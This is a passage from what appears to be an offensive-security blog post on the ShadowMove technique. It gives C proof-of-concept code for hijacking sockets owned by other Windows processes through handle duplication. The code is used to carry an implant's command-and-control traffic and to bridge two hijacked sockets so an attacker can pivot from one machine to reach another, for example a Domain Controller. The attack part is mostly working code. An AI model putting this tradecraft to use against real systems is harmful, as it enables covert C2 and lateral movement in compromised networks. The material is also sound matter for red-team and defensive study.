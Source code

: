 ```c
	WSAStartup(wVersionRequested, &wsaData);

	targetSocket = findTargetSocket(dwProcessId, dstIP);
	send(targetSocket, "Hello From the other side!\n", strlen("Hello From the other side!\n"), 0);
	recv(targetSocket, buff, 255, 0);
	printf("\n[*] Message from outside:\n\n %s\n", buff);
	return 0;
}
```
Here we just send the message "Hello from the other side!" from our infected machine to the "C&C" and the message "Stay hydrated!" comes from the C&C to the infected machine.

<figure>
<img src="/ShadowMove-hijack-socket/shadowmove-gateway.png" alt="Communication using a hijacked socket.">
<figcaption>
Communication using a hijacked socket.
</figcaption>
</figure>

# Building a bridge between machines a.k.a. pivoting in the shadows

We just saw how we can use ShadowMove to turn a program into a proxy for our local implant. But this same approach can be used to communicate two machines. Imagine a scenario where we have 3 machines: `A <--> B <--> C`. If we want to reach services exposed by C from A, we have to forward traffic in B (either with `netsh` or by dropping a proxy). We can achieve this with ShadowMove too.

We only need to execute two legitimate programs in B: one that connects to an exposed port in A and another to the target service in C. Then we hijack both sockets and bridge them. 

*Note: imagine we want to execute `ldapsearch` from A and the Domain Controller is at C. In A we need a script that exposes two ports, one to receive the connection from the `ldapsearch` (A') and another to receive the connection from B (A''). So everything received in A' is sent to A'' (that is connected through B), then our bridge forwards everything to the connection between B and C.*

The code executed in B is almost the same that we used before:

```c
// PoC of ShadowMove Pivot by Juan Manuel Fernández (@TheXC3LL) 

#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <winsock2.h>
#include <Windows.h>
#include <stdio.h>

#pragma comment(lib,"WS2_32")

// Most of the code is adapted from https://github.com/Zer0Mem0ry/WindowsNT-Handle-Scanner/blob/master/FindHandles/main.cpp
#define STATUS_INFO_LENGTH_MISMATCH 0xc0000004
#define SystemHandleInformation 16
#define ObjectNameInformation 1
#define MSG_END_OF_TRANSMISSION "\x31\x41\x59\x26\x53\x58\x97\x93\x23\x84"
#define BUFSIZE 65536

typedef NTSTATUS(NTAPI* _NtQuerySystemInformation)(
	ULONG SystemInformationClass,
	PVOID SystemInformation,
	ULONG SystemInformationLength,
	PULONG ReturnLength
	);
typedef NTSTATUS(NTAPI* _NtDuplicateObject)(
	HANDLE SourceProcessHandle,
	HANDLE SourceHandle,
```